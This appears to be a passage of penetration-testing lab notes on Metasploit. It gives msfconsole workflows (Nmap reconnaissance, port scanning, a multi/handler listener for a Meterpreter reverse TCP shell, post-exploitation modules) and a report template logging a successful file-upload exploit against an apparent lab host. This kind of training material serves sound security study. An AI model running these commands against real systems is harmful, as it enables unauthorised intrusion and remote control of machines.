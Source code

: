 ## 🔗 Integration with Other Tools

### Primary Integration: Nmap → MSFConsole → Post-Exploitation Tools
```bash
# Complete workflow showing tool integration
nmap -sV target_ip > scan_results.txt                    # Initial reconnaissance
msfconsole -r exploit_script.rc                          # Automated exploitation
# MSFConsole processes Nmap results to select appropriate exploits
# Established sessions provide platform for additional tool deployment

# Explanation of each step:
# Step 1: Nmap identifies services and versions
# Step 2: MSFConsole matches vulnerabilities to available exploits
# Step 3: Successful exploitation provides persistent access for tool deployment
```

### Secondary Integration: MSFConsole → Auxiliary Modules → External Scanners
```bash
# How MSFConsole coordinates with scanning modules
use auxiliary/scanner/portscan/tcp                       # Internal port scanning
set RHOSTS 192.168.1.0/24                              # Target network range
run                                                      # Execute scan
# Results feed into exploit module selection process
```

### Advanced Workflows:
```bash
# Complex multi-stage exploitation scenario
use exploit/multi/handler                                # Establish listener
set payload windows/meterpreter/reverse_tcp             # Configure payload
exploit -j                                               # Run as background job
use auxiliary/scanner/smb/smb_version                   # Network enumeration
use post/multi/recon/local_exploit_suggester           # Post-exploitation analysis
```

## 📝 Documentation and Reporting

### Evidence Collection Requirements:
1. **Screenshots:** Session establishment, exploit execution results, network discovery outputs
2. **Command Outputs:** All MSFConsole commands with timestamps and results
3. **Log Files:** Session logs, exploit attempts, and error messages
4. **Configuration Files:** Module configurations and payload settings

### Report Template Structure:
```markdown
## Metasploit Framework Results

### Target Information
- Target: target_identifier
- Date/Time: timestamp
- Framework Version: metasploit v6.4.12-dev

### Exploits Executed
#### Exploit: exploit/unix/webapp/xoda_file_upload
- **RHOSTS:** demo1.ine.local
- **TARGETURI:** /
- **LHOST:** 192.63.4.2
- **Result:** Successful - Session 1 established

#### Session Details
```